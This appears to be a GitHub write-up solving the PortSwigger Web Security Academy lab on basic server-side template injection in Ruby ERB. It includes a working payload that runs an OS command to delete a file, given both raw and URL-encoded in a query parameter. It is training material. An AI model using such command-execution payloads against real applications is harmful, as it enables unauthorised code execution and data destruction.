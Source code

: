 <!-- omit in toc -->
# Server-side template injection

<!-- omit in toc -->
## Table of Contents

- [Basic server-side template injection](#basic-server-side-template-injection)

## Basic server-side template injection
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

<!-- omit in toc -->
### Quick Solution
The description already says that the template engine used is *ERB*. Looking online I found that a payload to execute commands is the following:
```
<%= system("rm /home/carlos/morale.txt") %>
```

<!-- omit in toc -->
### Solution
1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. In the ERB documentation, discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:
```
<%= 7*7 %>
```
4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL as follows, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25%3d+7*7+%25>
```
5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the ``system()`` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file as follows:
```
<%= system("rm /home/carlos/morale.txt") %>
```
8. URL-encode your payload and insert it as the value of the message parameter, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```